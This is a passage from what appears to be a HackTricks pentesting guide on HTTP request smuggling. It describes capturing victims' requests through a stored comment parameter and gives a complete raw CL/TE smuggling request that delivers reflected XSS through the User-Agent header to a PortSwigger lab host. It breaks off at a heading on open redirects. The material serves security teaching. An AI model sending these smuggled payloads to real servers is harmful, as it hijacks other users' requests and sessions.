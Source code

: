 csrf=gpGAVAbj7pKq7VfFh45CAICeFCnancCM&postId=4&name=HACKTRICKS&email=email%40email.com&comment=`

In this case, the value of the **parameter comment** is going to be **saved inside a comment** of a post in the page that is **publicly available**, so a **comment will appear with the content of the next request**.

_One limitation with this technique is that it will generally only capture data up until the parameter delimiter that is applicable for the smuggled request. For URL-encoded form submissions, this will be the `&` character, meaning that the content that is stored from the victim user's request will end at the first `&`, which might even appear in the query string._

Note also that this **technique is also exploitable with a TE.CL** vulnerability but the request must end with `search=\r\n0\r\n\r\n`. However, independently of the new line characters the values are going to be appended to the search parameter.

### Using HTTP request smuggling to exploit reflected XSS

If the web page is also **vulnerable to Reflected XSS**, you can abuse HTTP Request Smuggling to attack clients of the web. The exploitation of Reflected XSS from HTTP Request Smuggling have some advantages:

* **It requires no interaction with victim users**
* It can be used to **exploit** XSS behavior in parts of the request that **cannot be trivially controlled in a normal reflected XSS attack**, such as HTTP request headers.

If a web is vulnerable to Reflected XSS on the User-Agent header you can use this payload to exploit it:

`POST / HTTP/1.1  
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0  
Cookie: session=Ro7YknOtbl3bxURHAAxZz84qj3PSMnSY  
Transfer-Encoding: chunked  
Connection: keep-alive  
Content-Length: 213  
Content-Type: application/x-www-form-urlencoded  
  
0  
  
GET /post?postId=2 HTTP/1.1  
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net  
User-Agent: "><script>alert(1)</script>  
Content-Length: 10  
Content-Type: application/x-www-form-urlencoded  
  
A=`

### Using HTTP request smuggling to turn an on-site redirect into an open redirect <a id="using-http-request-smuggling-to-turn-an-on-site-redirect-into-an-open-redirect"></a>

Many applications perform on-site redirects from one URL to another and place the hostname from the request's `Host` header into the redirect URL. An example of this is the default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder including the trailing slash:
